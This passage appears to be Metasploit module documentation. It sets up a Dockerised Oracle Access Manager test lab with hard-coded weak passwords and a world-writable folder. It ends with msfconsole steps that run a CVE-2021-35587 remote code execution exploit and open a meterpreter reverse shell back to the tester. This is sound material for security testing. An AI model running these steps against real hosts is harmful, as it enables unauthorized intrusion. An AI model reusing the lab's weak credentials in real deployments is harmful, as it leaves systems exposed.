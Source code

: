 Back on the host, create a file `/opt/oracle/oam-admin.env` with the following contents.

```
DOMAIN_NAME=access_domain
ADMIN_USER=weblogic
ADMIN_PASSWORD=Testing12345
ADMIN_LISTEN_HOST=oamadmin
ADMIN_LISTEN_PORT=7001
CONNECTION_STRING=oracle19db:1521/pdb_test
RCUPREFIX=OAM01
DB_USER=sys
DB_PASSWORD=Testing12345
DB_SCHEMA_PASSWORD=Testing12345
```

And bring up the `oamadmin` container (You can verify this has worked via `docker log`).

```
mkdir /opt/oracle/user_projects
chmod 777 /opt/oracle/user_projects
docker run -d -p 7001:7001 --name oamadmin --network=OamNET --env-file /opt/oracle/oam-admin.env --volume /opt/oracle/user_projects:/u01/oracle/user_projects container-registry.oracle.com/middleware/oam:12.2.1.4.0
```

Create a file `/opt/oracle/oam-ms.env` with the following contents.

```
DOMAIN_NAME=access_domain
ADMIN_USER=weblogic
ADMIN_PASSWORD=Testing12345
ADMIN_LISTEN_HOST=oamadmin
ADMIN_LISTEN_PORT=7001
MANAGEDSERVER_PORT=14100
MANAGED_SERVER_CONTAINER=true
MS_HOST=oamms
MS_NAME=oam_server1
```

And bring up the `oamms` container.

```
docker run -d -p 14100:14100 --network=OamNET --volumes-from oamadmin --name oamms --env-file /opt/oracle/oam-ms.env container-registry.oracle.com/middleware/oam:12.2.1.4.0 "/u01/oracle/dockertools/startMS.sh"
```

You should now be able to reach the `oamadmin` container via a browser at: http://127.0.0.1:7001/oamconsole/faces/login.jspx

You should now be able to reach the `oamms` container via a browser at: http://127.0.0.1:14100/oam/pages/login.jsp

The `oamms` container is what this exploit targets.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/oracle_access_manager_rce_cve_2021_35587`
3. `set TARGET 0`
4. `set RHOST <TARGET_IP_ADDRESS>`
5. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
6. `set LHOST eth0`
7. `set LPORT 4444`
8. `check`
9. `exploit`
